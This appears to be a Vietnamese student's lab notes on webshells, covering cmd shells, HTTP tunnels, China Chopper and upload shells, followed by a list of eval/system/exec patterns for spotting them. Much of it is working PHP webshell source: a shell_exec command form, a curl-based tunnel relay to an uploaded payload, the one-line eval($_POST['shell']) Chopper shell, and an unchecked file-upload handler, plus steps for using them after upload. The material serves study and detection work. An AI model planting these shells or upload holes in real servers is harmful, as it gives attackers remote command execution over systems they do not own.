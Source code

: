 # Lý thuyết

1. Webshell

- Webshell là một loại phần mềm độc hại được sử dụng để kiểm soát máy tính nạn nhân qua các dòng lệnh, được viết bằng các ngôn ngữ như PHP, ASP, JSP, Perl, Python, và Ruby. Webshell cho phép kẻ tấn công thực hiện một số hành động như thêm, xóa, sửa đổi tệp, thực thi mã độc hại, thu thập thông tin nạn nhân và có thể kiểm soát máy nạn nhân.

- Khi máy chủ đã bị nhiễm webshell, kẻ tấn công sẽ truy cập vào máy nạn nhân từ xa qua trình duyệt web hoặc các công cụ quản lý tệp.

2. Các loại webshell

2.1. Cmd shell

- Cmd shell là một loại webshell có khả năng thực thi các dòng lệnh thông qua giao diện dòng lệnh của hệ điều hành(thường dùng hàm shell_exec).

2.2. Http tunnel

- HTTP Tunnel là một loại webshell đặc biệt sử dụng giao thức HTTP để truyền tải các lệnh từ kẻ tấn công đến máy chủ và nhận kết quả trả về thông qua các yêu cầu HTTP. Đây là một loại webshell có khả năng vượt qua các giới hạn về tường lửa hoặc các cơ chế an ninh mạng chặn các kết nối bất thường.

2.3. Chooper

- Chooper cho phép tấn công, thực hiện các hoạt động độc hại và kiểm soát từ xa các hệ thống mà đã được xâm nhập. Chooper có kích thước nhỏ nên khó phát hiện.

2.4. Upload shell

- Upload shell là một kỹ thuật tấn công trong đó kẻ tấn công tải lên một webshell (một đoạn mã độc) lên máy chủ mục tiêu thông qua tính năng tải file của một ứng dụng web. Khi webshell được tải lên thành công và thực thi, nó cho phép kẻ tấn công điều khiển máy chủ từ xa, thực hiện các lệnh hệ thống, truy cập file, hoặc cài đặt phần mềm độc hại.

# Bài tập

1. Cmd shell

```
<?php
if (isset($_POST['cmd'])) {
    $command = $_POST['cmd'];
    $output = shell_exec($command);
    echo "<pre>$output</pre>";
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>PHP CmdShell</title>
</head>
<body>
    <form method="POST">
        <label for="cmd">Nhập lệnh shell:</label><br>
        <input type="text" name="cmd" id="cmd" required><br>
        <input type="submit" value="Thực thi">
    </form>
</body>
</html>
```

2. Http Tunnel

- Webshell

```
<?php
if (isset($_POST['cmd'])) {
    $command = $_POST['cmd'];
    $output = shell_exec($command);
    echo $output;
}
?>
```

- Server

```
<?php
$url = 'http://localhost/Challenge10-AnhNT/uploads/teacher/Payload.php';
$command = $_POST['cmd'];
$data = [
    'cmd' => $command,
];
$ch = curl_init($url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_POSTFIELDS, $data);
$response = curl_exec($ch);
curl_close($ch);
echo $response;
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>PHP CmdShell</title>
</head>
<body>
    <form method="POST">
        <label for="cmd">Nhập lệnh shell:</label><br>
        <input type="text" name="cmd" id="cmd" required><br>
        <input type="submit" value="Thực thi">
    </form>
</body>
</html>
```

3. Chooper

```
<?php @eval($_POST['shell']);?>
```

4. Upload shell

```
<?php
if($_SERVER['REQUEST_METHOD'] === 'POST'){
    $targetDir = 'upload';
    $targetFile = $targetDir . basename($_FILES['userfile']['name']);

    if(move_uploaded_file($_FILES['userfile']['tmp_name'], $targetFile)){
        header("Location: $targetFile");
        exit;
    }
}
?>
<form enctype="multipart/form-data" action="" method="POST">
    <input type="hidden" name="MAX_FILE_SIZE" value="100000">
    Send this file: <input name="userfile" type="file">
    <input type="submit" value="Send">
</form>
```

# Các pattern

1. File PHP
- eval(): webshell eval thực thi lệnh do hacker truyền vào qua các biến trong request. Ví dụ <?php eval($_GET('a')); ?>.
    - eval($_GET('string')); eval($_POST('string')); eval($_REQUEST('string'))
    - eval(encode string)
    - eval('response = '+response+';').
    - eval('$string = '.$string. ';').
    - eval($filter) (bắt từ chuỗi simpleEval($filter)).
    - 'Eval(&$item, &$dataType)', 'Eval($item[$key], $dataType)', 'Eval($value)','Eval($filters, $dataType)'
- $recursive0($params, $level+1)', '$recursive0($params)'
- exec ('sassc -t compressed -I '.$cwd.$bootstrapPath.' -I '.$cwd.portal()
- System()
    - system('/u01/colombo/usr/bin/php -c /u01/colombo/etc/php.ini /u01/colombo/www/crontab/runService.php 59721 Education.CourseResult.Exam.autoMarkExamAll')
    - system("perl ./api/syslog-send.pl \"Syslog filter for ".$fil["mf_log"]." updated by".read_session('SesAccount')."\"");
- curl_exec($ch)
- exec("ifconfig | grep -Eo 'inet (addr:)'
- $class(sfContext::getInstance()
2. Trường hợp file aspx, asp, cs
- eval() Thực thi lệnh truyền vào từ request. Dữ liệu được lấy từ request bằng cách Request.Item['a']
    - eval("DATE_DEBIT")
    - eval(Container.DataItem, "CategoryName")
    - eval("CreatTime", "{0:dd/MM/yyyy (HH:mm:ss),
    - eval("AMT_PAY","{0:#,##0}")  

# Demo

- Cmdshell

    - Sau khi upload webshell lên máy chủ, truy cập vào đường dẫn chứa webshell và gõ lệnh muốn dùng.
 
    <img src = ''>

- Http tunnel

    - Sau khi upload webshell lên máy chủ, ở phía server gõ lệnh muốn dùng.
 
    <img src = ''> 
